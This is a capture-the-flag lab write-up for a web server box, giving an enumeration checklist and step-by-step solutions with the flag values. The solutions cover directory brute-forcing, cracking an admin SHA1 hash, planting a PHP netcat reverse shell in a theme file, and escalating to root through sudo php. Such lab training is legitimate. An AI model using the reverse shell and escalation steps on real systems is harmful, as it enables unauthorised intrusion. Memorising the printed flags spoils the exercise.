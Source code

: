 Remember that enumeration is an iterative process. After performing our `Nmap` port scans, make sure to perform detailed enumeration against all open ports based on what is running on the discovered ports. Follow the same process as we did with `Nibbles`:

-   Enumeration/Scanning with `Nmap` - perform a quick scan for open ports followed by a full port scan
-   Web Footprinting - check any identified web ports for running web applications, and any hidden files/directories. Some useful tools for this phase include `whatweb` and `Gobuster`
-   If you identify the website URL, you can add it to your '/etc/hosts' file with the IP you get in the question below to load it normally, though this is unnecessary.
-   After identifying the technologies in use, use a tool such as `Searchsploit` to find public exploits or search on Google for manual exploitation techniques
-   After gaining an initial foothold, use the `Python3 pty` trick to upgrade to a pseudo TTY
-   Perform manual and automated enumeration of the file system, looking for misconfigurations, services with known vulnerabilities, and sensitive data in cleartext such as credentials
-   Organize this data offline to determine the various ways to escalate privileges to root on this target

There are two ways to gain a foothold—one using `Metasploit` and one via a manual process. Challenge ourselves to work through and gain an understanding of both methods.

There are two ways to escalate privileges to root on the target after obtaining a foothold. Make use of helper scripts such as [LinEnum](https://github.com/rebootuser/LinEnum) and [LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) to assist you. Filter through the information searching for two well-known privilege escalation techniques.

Have fun, never stop learning, and do not forget to `think outside of the box`!

Spawn the target, gain a foothold and submit the contents of the user.txt flag.

`7002d65b149b0a4d19132a66feed21d8`
* `nmap <ip>` for available ports
* connect to the ip given through port 80
* `gobuster dir -u http://<ip given> -w /usr/share/dirb/wordlists/common.txt` youll find admin is a valid user
* `gobuster dir -u http://<ip given>/admin -w /usr/share/dirb/wordlists/common.txt` youll find the hash for admin user
* decode hash on google, youll find the password is admin and it was coded on SHA1
* access admin page with user ans pass
* surfing through the page you can notice the theme files can be modified
* used a php user id check tag on one of them (my case was sidebar.inc.php)
* `curl http://10.129.246.183/theme/Innovation/sidebar.inc.php` will return a user id, means the script works
* do reverse shell by saving the script <?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <your ip> <listening port>>/tmp/f"); ?>
* check python version installed on the page `which python3`
* upgrade to full TTY with `python3 -c 'import pty; pty.spawn("/bin/bash")'`
* use command `find / -name "user.txt"` to find the file and open it


After obtaining a foothold on the target, escalate privileges to root and submit the contents of the root.txt flag.

`f1fba6e9f71efb2630e6e34da6387842`
* `sudo -l` will display `(ALL : ALL) NOPASSWD: /usr/bin/php`, means you can use the php binary without the need of a password
* go to `https://gtfobins.github.io/gtfobins/php/` to check for a bypass to escalate privileges
* run `sudo php -r "system('sudo su -');"` to change into root user
* `cd  /`
* `cat root.txt`
